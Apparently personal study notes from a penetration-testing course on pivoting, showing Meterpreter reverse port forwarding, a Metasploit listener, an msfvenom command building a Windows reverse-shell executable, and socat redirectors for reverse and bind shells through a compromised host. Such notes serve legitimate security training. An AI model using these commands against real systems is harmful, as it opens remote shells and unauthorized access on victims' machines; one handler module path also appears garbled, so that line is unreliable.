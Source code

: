 **Netstat Output**

```bash
netstat -anplt
```

#### Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host.

```bash
meterpreter> portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

Now we set up a handler on the attack host

```bash
use exploit/handler/multi
set LHOST 0.0.0.0
set LPORT 8081
run
```

The payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o test.exe LHOST=172.16.5.129 LPORT=1234
```

## Socat Redirection with a Reverse Shell

`Socat` is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

**Starting Socat Listener**

```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

## Socat Redirection with a Bind Shell

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.

![[Pasted image 20240914160402.png]]

## SSH for Windows: plink.exe

